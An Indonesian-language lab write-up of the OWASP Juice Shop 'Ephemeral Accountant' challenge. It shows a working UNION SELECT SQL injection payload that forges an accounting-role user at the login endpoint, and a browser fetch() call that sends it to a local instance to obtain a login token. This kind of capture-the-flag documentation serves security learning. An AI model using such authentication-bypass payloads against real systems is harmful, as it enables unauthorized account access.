 
## Penyelesaian Tantangan: Ephemeral Accountant

### Deskripsi Tantangan
Tantangan ini menuntut saya untuk masuk sebagai pengguna yang tidak ada (`acc0unt4nt@juice-sh.op`) tanpa mendaftarkannya terlebih dahulu. Pengguna ini harus "diciptakan" secara sementara hanya selama proses login.

### Strategi dan Eksekusi Serangan

#### Analisis Fungsionalitas
Saya mengidentifikasi endpoint `POST /rest/user/login` sebagai target. Tujuan saya adalah menyuntikkan SQL melalui body JSON dari permintaan ini.

#### Menyusun Payload SQL Injection
Karena akun tidak ada, saya menggunakan strategi `UNION SELECT` SQL Injection untuk membuat baris data pengguna palsu secara temporer. Payload ini dirancang untuk meniru struktur data pengguna yang sah, lengkap dengan email, password, dan role yang diperlukan.

Berikut adalah payload yang digunakan:

```json
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "test1234"
}
```

#### Eksekusi Serangan dengan Konsol Peramban
Saya mencoba beberapa metode untuk mengirim payload ini. Setelah gagal dengan `curl` di Command Prompt dan PowerShell karena masalah *quoting*, saya beralih menggunakan fungsi `fetch` di konsol peramban. Metode ini efektif karena dapat menangani objek JSON dengan sempurna.

Kode yang berhasil:

```javascript
fetch('http://127.0.0.1:3000/rest/user/login', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
        "password": "test1234"
    })
});
```

### Analisis Hasil
Serangan SQL Injection ini berhasil menciptakan data pengguna sementara selama proses login berlangsung. Aplikasi mengolah data ini seolah-olah berasal dari database yang valid, dan memberikan token JWT yang menandakan keberhasilan login. Hal ini menunjukkan kerentanan serius dalam mekanisme otentikasi.

### Bukti 
<img width="1861" height="958" alt="Screenshot 2025-09-09 225759" src="https://github.com/user-attachments/assets/d3dee9ea-7b12-4940-a7d1-2b78430f6509" />
